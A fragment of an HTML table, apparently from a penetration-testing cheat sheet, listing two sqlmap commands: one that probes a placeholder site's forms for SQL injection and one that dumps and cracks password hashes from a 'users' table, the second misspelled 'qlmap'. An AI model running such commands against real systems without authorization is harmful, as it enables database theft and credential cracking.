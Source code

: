     <tr>
      <td>
        <p><code>sqlmap -o -u "http://meh.com/form/" --forms</code></p>
      </td>
      <td>
            <p>sqlmap check form for injection</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>qlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users --dump</code></p>
      </td>
      <td>
            <p>sqlmap dump and crack hashes for table users on database-name.</p>
      </td>
    </tr>

  </tbody>
</table>
</div>
